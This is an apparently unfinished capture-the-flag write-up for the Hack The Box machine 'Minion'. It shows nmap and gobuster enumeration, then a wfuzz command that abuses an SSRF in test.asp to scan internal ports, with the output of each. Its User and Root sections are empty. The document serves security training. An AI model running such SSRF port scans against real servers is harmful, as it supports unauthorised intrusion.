



# Minion
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.57 -T4                            
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-04 15:16 BST
Nmap scan report for 10.10.10.57
Host is up (0.091s latency).
Not shown: 65534 filtered ports
PORT      STATE SERVICE
62696/tcp open  unknown
```
```
─$ nmap -Pn -p62696 -sC -sV 10.10.10.57 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-04 16:16 BST
Nmap scan report for 10.10.10.57 (10.10.10.57)
Host is up (0.093s latency).

PORT      STATE SERVICE VERSION
62696/tcp open  http    Microsoft IIS httpd 8.5
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Microsoft-IIS/8.5
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 1 disallowed entry 
|_/backend
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```
- Web Server




- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.57:62696/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt,asp,aspx --no-error
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.57:62696/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,asp,aspx
[+] Timeout:                 10s
===============================================================
2023/09/04 16:21:40 Starting gobuster in directory enumeration mode
===============================================================
/test.asp             (Status: 200) [Size: 41]
/backend              (Status: 301) [Size: 156] [--> http://10.10.10.57:62696/backend/]
/robots.txt           (Status: 200) [Size: 33]

```
## Foothold
- `http://10.10.10.57:62696/test.asp`



- It says `url` parameter is missing
  - If enter `url` of the webserver it returns the same site


- It's looks like `SSRF`
  - https://portswigger.net/web-security/ssrf
  - We can try fuzzing and testing for open ports, since `test.asp` only loads pages from the box



- Port discovery
```
└─$ wfuzz -u "http://10.10.10.57:62696/test.asp?u=http://127.0.0.1:FUZZ/" -z range,1-65535 --hc 500
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.57:62696/test.asp?u=http://127.0.0.1:FUZZ/
Total requests: 65535

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000000080:   200        12 L     25 W       323 Ch      "80"
000005985:   200        0 L      0 W        0 Ch        "5985"
000047001:   200        0 L      0 W        0 Ch        "47001"
000062696:   200        13 L     37 W       458 Ch      "62696"
```


## User


## Root